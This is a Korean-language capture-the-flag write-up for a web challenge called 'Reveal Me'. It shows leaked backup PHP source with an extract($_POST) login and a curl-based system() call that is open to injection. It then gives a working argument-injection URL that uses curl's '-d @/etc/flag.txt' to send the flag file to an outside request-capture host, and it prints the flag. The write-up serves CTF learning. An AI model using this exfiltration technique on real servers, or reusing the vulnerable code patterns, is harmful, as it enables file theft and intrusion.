 # Reveal Me
```
Everything is in front of you.

http://34.72.61.239/

Note: Flag is located in etc directory.

Author : x3rz
```
front? frontend? 프론트엔드에 모든게 있다?

문제 사이트에 접속하면 로그인 사이트밖에 나오지 않는데, 정말 이것저것 시도해봤지만 어떻게 진행해야 할지 감이 잡히지 않았다. 그러다가 상수형이 `robots.txt`에 백업 파일 힌트가 있다고 알려주셔서 확인해보니 `/backup/index.php.bak`이 비허용 되어있음을 알 수 있었다. 이전에도 `robotst.txt`에 접근을 해봤었는데 서버가 느려서인지 오류가 났어서 한참을 돌아왔다.

## /backup/index.php.bak
```php
<?php
error_reporting(0);
session_start(); 

if (isset($_POST['submit'])) {
  $pass = "REDACTED";
    extract($_POST);
  if (!empty($password)) {
      if ($password === $pass) {
      $_SESSION['last_page'] = "REDACTED";
          header('Location: fetch_url.php');
     }
  else{
    die("You have entered wrong password\n Please contact Admin for your password.");
  }
  }
}
?>
```
코드를 대충 훑어보면 `passwrod`에 대한 조건이 만족하면 `last_page`를 설정하고, `fetch_url.php`로 넘어간다. 혹시나 하는 마음에 이 파일도 백업파일이 있나 확인해보니 접근 가능했다.

## /backup/fetch_url.php
```php
if (isset($_GET['url'])) {
  $url = $_GET['url'];
  if(preg_match('/-F|-T|index.php/i',$url)) die("Use of Flags are banned.\n Dont try to exploit.\n Your malicious intent will be recorded.");
  system(escapeshellcmd('curl -l '.$url)); 
}
```
이 페이지는 `url` 매개변수를 통해 `system` 함수를 사용할 수 있다. 기본적으로 `curl`을 이용할 수 있도록 해놓았다. 다른 명령 실행을 방지하고자 `escapeshellcmd`함수를 사용했고, `preg_match`를 통해 파일을 전송할 수 있는 옵션 값을 막아두었다.

## command injection
`/etc/flag.txt`를 명령을 통해 어떻게든 밖으로 빼내야 했기 때문에 파일을 포함한 request를 생성하는 것을 목적으로 했다.
```
http://34.72.61.239/fetch_url.php?url=-d+@/etc/flag.txt+"https://enbux3dy62rav.x.pipedream.net"
```
상수형의 아이디어로 `@/etc/flag.txt` 와 같은 형태로 파일을 불러들여 `-d` 옵션을 통해 플래그를 읽어낼 수 있었다. 

## flag
```
wormcon{3xtr4ct_4xtr4ct3d_my_fl4g_w14e14e}
```